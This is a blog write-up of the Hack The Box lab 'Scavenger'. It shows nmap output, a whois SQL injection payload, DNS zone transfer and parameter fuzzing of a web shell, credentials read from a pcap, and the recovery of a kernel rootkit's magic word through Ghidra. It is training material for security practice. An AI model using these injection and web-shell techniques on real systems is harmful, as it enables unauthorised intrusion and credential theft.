


# Scavenger


Scavenger box was the hardes after [Zetta](https://gr4n173.github.io/zetta) box. It falls under linux and hard category. Here I will explain my path for Scavenger box from the Hack The Box.
<!--more-->

---
# HTB:Scavenger

Scavenger box was the hardest box after [Zetta](https://gr4n173.github.io/2020/02/22/htb-zetta.html) box. It falls under linux and hard category. Here, everything was all about enumeration, enumeration and enumeration. I'll approach this write-up how I solved it, along with the problems that I had to face during this box. At first I obtained the user flag using `whois` service and dns zone transfer(axfr) along with ftp by analyzing the .pcap file then used LKM to read root.txt. I'll show all my payload (including that didn't work in initial deployment to get root).

## Box Details


In above picture it's ip is 10.10.10.155, I added it to /etc/hosts as scavenger.htb. Let's solve this box.

---

## Recon

Let's start with our universal port scanner, `nmap` to see the open port and service which shows 


```bash
# Nmap 7.80 scan initiated Thu Feb 27 23:24:41 2020 as: nmap -sS -sV -sC -Pn -oN nmap.txt 10.10.10.155
Nmap scan report for www.supersechosting.htb (10.10.10.155)
Host is up (0.29s latency).
Not shown: 993 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.3
22/tcp open   ssh      OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 df:94:47:03:09:ed:8c:f7:b6:91:c5:08:b5:20:e5:bc (RSA)
|   256 e3:05:c1:c5:d1:9c:3f:91:0f:c0:35:4b:44:7f:21:9e (ECDSA)
|_  256 45:92:c0:a1:d9:5d:20:d6:eb:49:db:12:a5:70:b7:31 (ED25519)
25/tcp open   smtp     Exim smtpd 4.89
| smtp-commands: ib01.supersechosting.htb Hello www.supersechosting.htb [10.10.14.243], SIZE 52428800, 8BITMIME, PIPELINING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
43/tcp open   whois?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest: 
|     % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
|     more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
|     This query returned 0 object
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     % SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
|     more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
|_    1267 (HY000): Illegal mix of collations (utf8mb4_general_ci,IMPLICIT) and (utf8_general_ci,COERCIBLE) for operation 'like'
53/tcp open   domain   ISC BIND 9.10.3-P4 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Debian
80/tcp open   http     Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: SuperSecHosting
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port43-TCP:V=7.80%I=7%D=2/27%Time=5E57FEF1%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,A9,"%\x20SUPERSECHOSTING\x20WHOIS\x20server\x20v0\.6beta@Maria
SF:DB10\.1\.37\r\n%\x20for\x20more\x20information\x20on\x20SUPERSECHOSTING
SF:,\x20visit\x20http://www\.supersechosting\.htb\r\n%\x20This\x20query\x2
SF:0returned\x200\x20object\r\n")%r(GetRequest,A9,"%\x20SUPERSECHOSTING\x2
SF:0WHOIS\x20server\x20v0\.6beta@MariaDB10\.1\.37\r\n%\x20for\x20more\x20i
SF:nformation\x20on\x20SUPERSECHOSTING,\x20visit\x20http://www\.supersecho
SF:sting\.htb\r\n%\x20This\x20query\x20returned\x200\x20object\r\n")%r(HTT
SF:POptions,A9,"%\x20SUPERSECHOSTING\x20WHOIS\x20server\x20v0\.6beta@Maria
SF:DB10\.1\.37\r\n%\x20for\x20more\x20information\x20on\x20SUPERSECHOSTING
SF:,\x20visit\x20http://www\.supersechosting\.htb\r\n%\x20This\x20query\x2
SF:0returned\x200\x20object\r\n")%r(RTSPRequest,A9,"%\x20SUPERSECHOSTING\x
SF:20WHOIS\x20server\x20v0\.6beta@MariaDB10\.1\.37\r\n%\x20for\x20more\x20
SF:information\x20on\x20SUPERSECHOSTING,\x20visit\x20http://www\.supersech
SF:osting\.htb\r\n%\x20This\x20query\x20returned\x200\x20object\r\n")%r(He
SF:lp,A9,"%\x20SUPERSECHOSTING\x20WHOIS\x20server\x20v0\.6beta@MariaDB10\.
SF:1\.37\r\n%\x20for\x20more\x20information\x20on\x20SUPERSECHOSTING,\x20v
SF:isit\x20http://www\.supersechosting\.htb\r\n%\x20This\x20query\x20retur
SF:ned\x200\x20object\r\n")%r(SSLSessionReq,103,"%\x20SUPERSECHOSTING\x20W
SF:HOIS\x20server\x20v0\.6beta@MariaDB10\.1\.37\r\n%\x20for\x20more\x20inf
SF:ormation\x20on\x20SUPERSECHOSTING,\x20visit\x20http://www\.supersechost
SF:ing\.htb\r\n1267\x20\(HY000\):\x20Illegal\x20mix\x20of\x20collations\x2
SF:0\(utf8mb4_general_ci,IMPLICIT\)\x20and\x20\(utf8_general_ci,COERCIBLE\
SF:)\x20for\x20operation\x20'like'")%r(TerminalServerCookie,103,"%\x20SUPE
SF:RSECHOSTING\x20WHOIS\x20server\x20v0\.6beta@MariaDB10\.1\.37\r\n%\x20fo
SF:r\x20more\x20information\x20on\x20SUPERSECHOSTING,\x20visit\x20http://w
SF:ww\.supersechosting\.htb\r\n1267\x20\(HY000\):\x20Illegal\x20mix\x20of\
SF:x20collations\x20\(utf8mb4_general_ci,IMPLICIT\)\x20and\x20\(utf8_gener
SF:al_ci,COERCIBLE\)\x20for\x20operation\x20'like'")%r(TLSSessionReq,103,"
SF:%\x20SUPERSECHOSTING\x20WHOIS\x20server\x20v0\.6beta@MariaDB10\.1\.37\r
SF:\n%\x20for\x20more\x20information\x20on\x20SUPERSECHOSTING,\x20visit\x2
SF:0http://www\.supersechosting\.htb\r\n1267\x20\(HY000\):\x20Illegal\x20m
SF:ix\x20of\x20collations\x20\(utf8mb4_general_ci,IMPLICIT\)\x20and\x20\(u
SF:tf8_general_ci,COERCIBLE\)\x20for\x20operation\x20'like'");
Service Info: Host: ib01.supersechosting.htb; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 27 23:26:45 2020 -- 1 IP address (1 host up) scanned in 123.59 seconds

```

### Web Enumeration
***scavenger.htb***

After I noticed `port` 80 was opened I visited that site and got this as output.


From above picture, I got an vhost config problem which indicated hostname problem now I had to find another hostname. For that, I went back to `nmap` scan where I got `6` opened port and searched every opened port for vulnerability but got nothing since all were rabbit hole except port `43` of `whois` service. 
		You can visit here for more about [whois](https://www.commandlinux.com/man-page/man1/whois.1.html). From this I made simple payload. 
		
### Sqli in WHois Service

```
root@gr4n173:~$ whois -h 10.10.10.155 -p 43 "scavenger.htb"
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 0 object
```
From here I got new domain name and added that domain name in `/etc/hosts` in same ip `10.10.10.155`. After adding that Ip I visited that site and got this as result.


this way I can browse a website. Here, I got nothing so I had to search more about `whois` service. I made payload to inject sqli in whois service to extract the files from database as.

```
root@gr4n174:~$ whois -h 10.10.10.155 -p 43 "l33t') or 1=1#"
 SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 4 object
   Domain Name: SUPERSECHOSTING.HTB
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: http://www.supersechosting.htb
   Updated Date: 2018-02-21T18:36:40Z 
   Creation Date: 1997-09-15T04:00:00Z
   Registry Expiry Date: 2020-09-14T04:00:00Z
   Registrar: SuperSecHosting Inc.
   Registrar IANA ID: 292
   Registrar Abuse Contact Email: abusecomplaints@supersechosting.htb
   Registrar Abuse Contact Phone: +1.999999999
   Name Server: NS1.SUPERSECHOSTING.HTB
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2018-12-05T14:11:05Z <<<

For more information on Whois status codes, please visit https://icann.org/epp

NOTICE: The expiration date displayed in this record is the date the
registrar's sponsorship of the domain name registration in the registry is
currently set to expire. This date does not necessarily reflect the expiration
date of the domain name registrant's agreement with the sponsoring
registrar.  Users may consult the sponsoring registrar's Whois database to
view the registrar's reported date of expiration for this registration.

TERMS OF USE: You are not authorized to access or query our Whois
database through the use of electronic processes that are high-volume and
automated except as reasonably necessary to register domain names or
modify existing registrations; the Data in VeriSign Global Registry
.......
........

```
This command extract everything that was saved in database using SQL Injection in `WHOIS` service since `WHOIS` service always needs to use database to store and extract the information.

From above output of WHOIS command I got three more `dns` as` www.justanotherblog.htb` `www.pwnhats.htb` `www.rentahacker.htb` and I immediately added it to `/etc/hosts`. After that I can browser every website of it and final dns in `/etc/hosts` was

```
root@gr4n173:~$ cat /etc/hosts
10.10.10.155    www.pwnhats.htb www.rentahacker.htb www.justanotherblog.htb www.supersechosting.htb
```
**justanotherblog.htb**


**pwnhats.htb**



**rentahacker.htb**


I searched every part of three website and basic method of Web Pentesting . Since there were many website of same ip so I used dns zone transfer (axfr) to know the subdomains and dig every domain as `dig @10.10.10.155 pwnhats.htb axfr` `dig @10.10.10.155 rentahacker.htb axfr`I got new subdomain of rentahacker.htb . For more info about dig you can visit [dig](https://linuxize.com/post/how-to-use-dig-command-to-query-dns-in-linux/).

### Subdomain Enumeration

```
root@gr4n174:~$ dig @10.10.10.155 rentahacker.htb axfr
; <<>> DiG 9.11.5-P4-5-Debian <<>> @10.10.10.155 rentahacker.htb axfr                                                                                 
; (1 server found)                                                                                                                                    
;; global options: +cmd                                                                                                                               
rentahacker.htb.        604800  IN      SOA     ns1.supersechosting.htb. root.supersechosting.htb. 4 604800 86400 2419200 604800                      
rentahacker.htb.        604800  IN      NS      ns1.supersechosting.htb.                                                                              
rentahacker.htb.        604800  IN      MX      10 mail1.rentahacker.htb.                                                                             
rentahacker.htb.        604800  IN      A       10.10.10.155                                                                                          
mail1.rentahacker.htb.  604800  IN      A       10.10.10.155                                                                                          
sec03.rentahacker.htb.  604800  IN      A       10.10.10.155                                                                                          
www.rentahacker.htb.    604800  IN      A       10.10.10.155                                                                                          
rentahacker.htb.        604800  IN      SOA     ns1.supersechosting.htb. root.supersechosting.htb. 4 604800 86400 2419200 604800                      
;; Query time: 883 msec
;; SERVER: 10.10.10.155#53(10.10.10.155)
;; WHEN: Fri Feb 28 00:09:07 +0545 2020
;; XFR size: 8 records (messages 1, bytes 251)
```
Since 10.10.10.155 was ip here I used it as name server and rentahacker.htb as a url for dns zone transfer using axfr. Now `sec03.rentahacker.htb` was added in `/etc/hosts`too.

**sec03.rentahacker.htb**


After that, I searched for directory using dirsearch as 

```
root@gr4n173:~$ ./dirsearch.py -u http://sec03.rentahacker.htb/ -e html,txt,php,pcap,bzip,tar,bak
```
Here I got `shell.php` as an interesting dir. Then, searched for parameter in `shell.php?FUZZ=` where I used ffuf tool .

```bash
root@gr4n173:~$ffuf -w ~/Downloads/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://sec03.rentahacker.htb/shell.php?FUZZ=id                                                                                                        
                                                                                                                                                      
        /'___\  /'___\           /'___\                                                                                                               
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                               
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                              
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                              
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                               
          \/_/    \/_/   \/___/    \/_/                                                                                                               
                                                                                                                                                      
       v0.12                                                                                                                                          
________________________________________________                                                                                                      
                                                                                                                                                      
 :: Method           : GET                                                                                                                            
 :: URL              : http://sec03.rentahacker.htb/shell.php?FUZZ=id                                                                              
 :: Follow redirects : false                                                                                                                          
 :: Calibration      : false                                                                                                                          
 :: Timeout          : 10                                                                                                                             
 :: Threads          : 40                                                                                                                             
 :: Matcher          : Response status: 200,204,301,302,307,401,403                                                                                   
________________________________________________                                                                                                      
                                                                                                                                                      
password                [Status: 200, Size: 0, Words: 1, Lines: 1]                                                                                    
email                   [Status: 200, Size: 0, Words: 1, Lines: 1]                                                                                    
url                     [Status: 200, Size: 0, Words: 1, Lines: 1]                                                                                    
type                    [Status: 200, Size: 0, Words: 1, Lines: 1]
.....
hidden                  [Status: 200, Size: 61, Words: 3, Lines: 2]                                                                                   
```

From here I got `hidden` as parameter and got `ib01c03` as output in browser. This indicated I can now run commands from the browser. You can see the output below.



## RCE as ib01c03 
### Users: ib01c03->ib01ftp->ib01c01

After getting web-shell I searched every possible part of that user and finally got mail in `/var/mail/` directory i.e. `ib01c03` with my `cat` I got this


You can see the credentials username/password. I used that user/pass 
to login ftp and I m into ib01ftp user now.

### FTP
***ib01ftp->ib01c01->user.txt***

```
root@gr4n173:~$ ftp www.supersechosting.htb
Connected to www.supersechosting.htb.
220 (vsFTPd 3.0.3)
Name (www.supersechosting.htb:bikram): ib01ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
```
After alot searched in every directory I got `incidents` and `ibo1c01_incident.pcap` file inside `ib01c01`. Then downloaded it to my local machine for that I used below command.

```
ftp> get ib01c01_incident.pcap
local: ib01c01_incident.pcap remote: ib01c01_incident.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ib01c01_incident.pcap (835084 bytes).
226 Transfer complete.
835084 bytes received in 6.58 secs (123.9393 kB/s)
```
You can get .pcap file here: [pcap](public/files/ib01c01_incident.pcap). It would be a great idea if we try strings for .pcap file so I analyzed .pcap file with `strings` and got this result.

```
root@gr4n173:~$ strings ib01c01_incident.pcap | grep passwd
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=pwnhats.htb&email=admin%40pwnhats.htb&redirect=http%3A%2F%2Fwww.pwnhats.htb%2Fadmin530o6uisg%2F%26token%3De44d0ae2213d01986912abc63712a05b
                                                <label class="control-label" for="passwd">
                                                <input name="passwd" type="password" id="passwd" class="form-control" value="" tabindex="2" placeholder="&#xf084 Password" />
ajax=1&token=&controller=AdminLogin&submitLogin=1&passwd=GetYouAH4t%21&email=pwnhats%40pwnhats.htb&redirect=http%3a//www.pwnhats.htb/admin530o6uisg/%26token%3de44d0ae2213d01986912abc63712a05b

```
From here I got passwd `GetYouAH4t%21` where `%21=!` so `GetYouAH4t!`. So basically we had to give a try any commands for any file. I  tried this passin every user which I got from ftp

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    5 1001     1004         4096 Feb 28 06:23 ib01c01
drwx------    3 1002     1004         4096 Dec 11  2018 ib01c02
drwx------    4 1003     1004         4096 Jan 30  2019 ib01c03
dr-xrwx---    3 1005     1000         4096 Dec 10  2018 ib01ftp
drwx------    3 1004     1000         4096 Dec 10  2018 ib01www
drwx------    2 1000     1000         4096 Feb 02  2019 support
```
Finally I m into `ib01c01` user on `ls` I got user.txt and downloaded to my local machine using `get`

```
ftp> get user.txt 
local: user.txt remote: user.txt
No control connection for command: Success
```

```  
root@gr4n173:~$ cat user.txt
6f8a8a************
```
This way I got the user.txt file without getting shell for user.

# Unprivelege-> Privilege Escalation
**ftp->ib01c01->.pcap**

```
root@gr4n173:~$ ftp www.supersechosting.htb
Connected to www.supersechosting.htb.
220 (vsFTPd 3.0.3)
Name (www.supersechosting.htb:bikram): ib01c01
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
226 Directory send OK.
```
While doing enumeration it would be better if you analyze/use the files which was found before. So I analyzed .pcap file with wireshark and got file root.c .  

_Wireshark: File->Export Objects->HTTP_


Then, I downloaded it in my local machine. You can get file here [root.c](/public/files/root.c). After analyzing this file I noticed that it is Kernel Rootkit. There is a saying
 
```
"Some people say that there are three things you have to do before you die: Write a book, have a child and plant a tree"
```
and found really good source for it you can visit here: [detail](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485).

**LKM-> 'magic'-> Root**

After reading above blog I noticed that I should had `root.ko` file and a word `magic`. At first, I searched for word magic in root.c file and got `g0tR0ot`. I tried with that word in browser from previous user `ib01c03`with payload as

and got same user so word `magic` was changed. For that I searched that word in every part of home dir of `ib01c01` and found `old school way of hidding a files ` on `ls -al` I got this.

```
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    5 1001     1004         4096 Feb 28 06:23 .
drwxr-xr-x    8 0        0            4096 Dec 07  2018 ..
drwxr-xr-x    2 1001     1004         4096 Feb 02  2019 ...
-rw-------    1 0        0               0 Dec 11  2018 .bash_history
drwx------    2 1001     1004         4096 Feb 28 06:23 .ssh
-rw-------    1 1001     1004           32 Jan 30  2019 access.txt
-rw-r--r--    1 1001     1004     68175351 Dec 07  2018 prestashop_1.7.4.4.zip
-rw-r-----    1 0        1004           33 Dec 07  2018 user.txt
drwxr-xr-x   26 1001     1004         4096 Dec 10  2018 www
```
There I noticed `...` directory where I found `root.ko` file
and downloaded it to my local machine using command as previous. Since `root.ko` file was ELF file so I tried simple `head` command as

```
root@gr4n174:~$ head -n1 root.ko
ELF>@@&%GNUœ-ME<_|1HATUHzSI@HH eH%(HD$1Hg0tR0otD$g3tD$
                                                      Pr1vHD$D$Hu,HHHL$eH3
                                                                       %(H []A\H1HHLHLD$
                                                                                           HL$H|$Ht$HuiHItiHADAD$LAD$AD$AD$AD$
D$ AD$HH1H11IHyHHHHHH=Hv-=H1HtHH=11I1H=Hv7H==H1H5H=H=H==H1HttyRK: 
Cannot prepare credentials 

```

From here I got two word `g0tR0ot` and `g3tPr1v` since first word was `magic` word from root.c but second one wasn't from there so I tried that word and luckly got the root.


Now I can read root.txt file as 


----

## Alternative Method to Root
### Reverse Engineering
Though I got the root from simple way and I tried other way to get root. As `root.ko` file was ELF file and I love reversing the ELF file so I analyzed using my latest favorite tool `ghidra`. I opened it using `ghidra` if you are unfamiliar with `ghidra ` tool you can see more about it here: [ghidra](https://www.ghidra-sre.org/). 

From the analysis of file root.c word `magic` was in function `root_write()`. So I checked that function in `ghidra` and got below as result.	


There I saw three variables as `local_31` `local_2d` `local_28` which was defined already. But these variable was defined in `little Indian` format. If you are unfamiliar with this format then don't worry I will explain in my next blog.
 
```
  local_31 = 0x743367; # g3t
  local_2d = 0x76317250; # Pr1v
  local_28 = 0x746f3052743067; # g0tR0ot
```
And on analyzing more about that function I got something fishy in `snprintf((char *)&local_28,8,"%s%s",&local_31,&local_2d);`. In the above function from `ghidra` I found that value of `local_28` is replaced with `local_31+local_2d`. If you are unfamiliar about `snprintf` function you can visit here [snprintf](http://joequery.me/code/snprintf-c/).

So my final `magic` word was `g3tPr1v`. Using this as above in browser, I  got the root.txt file.


This way I got the root of scavenger box and learned alot from this box. So I would like to thank creator of this box `ompamo` for such an awesome box. Especially enumeration, enumeration and enumeration was awesome.
	
I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup.  
Feedback are really appreciated !!  
Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).


                                                                                                                                                                                                                                                                                                                                                                                          

